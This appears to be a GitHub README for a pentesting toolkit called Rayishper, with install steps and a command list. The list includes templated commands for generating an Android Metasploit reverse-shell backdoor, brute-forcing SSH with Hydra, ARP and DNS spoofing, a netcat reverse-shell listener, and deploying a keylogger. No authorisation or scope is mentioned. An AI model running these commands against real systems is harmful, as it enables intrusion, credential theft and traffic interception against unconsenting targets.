 # Rayishper Pentesting Toolkit

Rayishper is a customizable and automated toolkit designed for cybersecurity enthusiasts and professionals. Originally inspired by manual note-taking on cybersecurity tasks, Rayishper automates a variety of common pentesting activities to streamline your workflow.

## Table of Contents

- [Introduction](#introduction)
- [Features](#features)
- [Installation](#installation)
- [Dependencies](#dependencies)
- [Usage](#usage)
- [Commands Overview](#commands-overview)
- [License](#license)

## Introduction

Rayishper started as a simple note-taking practice to assist with various cybersecurity tasks. It has now evolved into an automated toolkit that can perform a wide range of pentesting activities such as password cracking, network sniffing, social engineering, and more.

## Features

- **Password Cracking:** Automate brute-force attacks using tools like John the Ripper and aircrack-ng.
- **Network Attacks:** Perform ARP spoofing, DNS spoofing, port scanning, and packet sniffing.
- **Payload Generation:** Create custom payloads for Android devices using Metasploit.
- **Social Engineering:** Launch social engineering attacks using the SET toolkit.
- **File and Directory Management:** Automate common file and directory operations like viewing, deleting, and scanning.
- **Script Automation:** Convert repetitive manual tasks into automated scripts.

## Installation

Clone the Rayishper repository:

```bash
git clone https://github.com/your-repo/rayishper.git
```
```bash
cd rayishper
```

## Make the script executable:
```bash
chmod +x rayishper.py
```

## Install the required dependencies:
```bash
sudo apt-get update
```
```bash
sudo apt-get install python3 python3-pip metasploit-framework nmap hydra tcpdump aircrack-ng john setoolkit
```
**Ensure that all tools used in the script are correctly installed and accessible in your PATH.**

## Dependencies: 
The Rayishper script relies on the following tools and libraries:

- **Python-3:** The core programming language used in the script.
- **Metasploit Framework:** For payload generation, reverse shell listeners, and exploitation.
- **nmap:** For network scanning and discovery.
- **Hydra:** For brute-forcing SSH logins.
- **Tcpdump:** For packet sniffing and network analysis.
- **Aircrack ng:** For wireless network cracking.
- **John the Ripper:** For password cracking.
- **Social Engineering Toolkit (SET):** For social engineering attacks.

## Usage
## To run Rayishper:
```bash 
./rayishper.py 
 ```

## Main Menu
When you start the script, you'll be prompted with the following options:

Hello Neo, what's the magic word?: Type "red pill" to access the main menu.
Main Menu Options: Choose from various pentesting actions such as deploying keyloggers, scanning networks, or generating payloads.
Commands Overview
Below is a summary of the main commands used within Rayishper:

## VF685 Hack
Description: Automate hacking a specific VF685 target.
Command: 
```bash 
python3 VF685.py
```

## Keylogger Deployment
Description: Start a keylogger that logs keystrokes to a file.
Command:
```bash 
 python3 keylog.py
```

## Payload Creation
Description: Generate a custom Android payload using Metasploit.
Command: 
```bash 
msfvenom -p android/meterpreter/reverse_tcp LHOST={lhost} LPORT={lport} R> {location}/{Backdoor_name}
```

## SSH Brute-Force
Description: Perform a brute-force attack on SSH login.
Command: 
```bash
hydra -l {username} -P {wordlist} ssh://{target_ip}
```

## Network Scanning
Description: Scan a target IP for open ports and services.
Command: 
```bash
nmap -sV {target_ip}
```

## ARP Spoofing
Description: Perform ARP spoofing to intercept traffic.
Command: 
```bash
sudo arpspoof -i eth0 -t {target_ip} -r {gateway_ip}
```

## Reverse Shell Listener
Description: Start a netcat listener for reverse shells.
Command: 
```bash
nc -lvnp {lport}
```

## DNS Spoofing
Description: Spoof DNS responses on a network.
Command: 
```bash
sudo dnsspoof
```

## License
This project is open-source and available under the 
```bash 
MIT License.
```